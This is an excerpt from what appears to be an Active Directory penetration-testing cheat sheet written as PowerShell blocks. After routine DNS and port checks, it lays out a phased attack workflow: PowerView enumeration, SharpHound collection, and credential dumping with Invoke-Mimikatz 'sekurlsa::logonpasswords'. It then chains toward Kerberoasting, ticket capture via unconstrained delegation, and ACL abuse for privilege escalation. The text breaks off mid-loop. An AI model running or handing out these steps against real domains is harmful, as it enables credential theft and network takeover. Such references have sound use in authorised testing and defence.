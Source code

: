 ### **🌐 Network and DNS Tools**
```powershell
# DNS queries
nslookup corp.local
Resolve-DnsName -Type SRV _ldap._tcp.dc._msdcs.corp.local

# Network connectivity
Test-NetConnection -ComputerName DC01.corp.local -Port 389
Test-NetConnection -ComputerName DC01.corp.local -Port 445
```

---

## 🔗 **TOOL INTEGRATION & WORKFLOWS**

### **🎯 Complete Enumeration Workflow**
```powershell
# Phase 1: Stealth Discovery (MS-signed tools only)
Write-Host "Phase 1: Stealth Discovery" -ForegroundColor Green
Import-Module ActiveDirectory
$domain = Get-ADDomain
$dcs = Get-ADDomainController -Filter *
Write-Host "Domain: $($domain.Name)" -ForegroundColor Cyan
Write-Host "DCs: $($dcs.Count)" -ForegroundColor Cyan

# Phase 2: Enhanced Enumeration (PowerView)
Write-Host "Phase 2: Enhanced Enumeration" -ForegroundColor Green
. .\PowerView.ps1
$users = Get-DomainUser -Properties samaccountname,distinguishedname | Select-Object -First 100
$groups = Get-DomainGroup -Properties member | Select-Object -First 50
Write-Host "Users: $($users.Count)" -ForegroundColor Cyan
Write-Host "Groups: $($groups.Count)" -ForegroundColor Cyan

# Phase 3: Attack Path Mapping (BloodHound)
Write-Host "Phase 3: Attack Path Mapping" -ForegroundColor Green
.\SharpHound.exe -c All -d $domain.Name
Write-Host "BloodHound data collection completed" -ForegroundColor Green

# Phase 4: Credential Harvesting (Mimikatz)
Write-Host "Phase 4: Credential Harvesting" -ForegroundColor Green
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
```

### **🔄 Tool Chaining Examples**
```powershell
# Example 1: SPN Discovery → Kerberoasting → Lateral Movement
$spnUsers = Get-DomainUser -SPN -Properties ServicePrincipalName
foreach($user in $spnUsers) {
    Write-Host "Kerberoasting: $($user.samaccountname)" -ForegroundColor Yellow
    # Use Rubeus or Mimikatz for actual Kerberoasting
}

# Example 2: Unconstrained Delegation → Ticket Capture → Privilege Escalation
$unconstrainedComputers = Get-DomainComputer -TrustedForDelegation
foreach($computer in $unconstrainedComputers) {
    Write-Host "Monitoring: $($computer.name)" -ForegroundColor Yellow
    # Use Mimikatz for ticket capture
}

# Example 3: Weak ACLs → Permission Abuse → Privilege Escalation
$interestingACLs = Find-InterestingDomainAcl -ResolveGUIDs
foreach($acl in $interestingACLs) {
```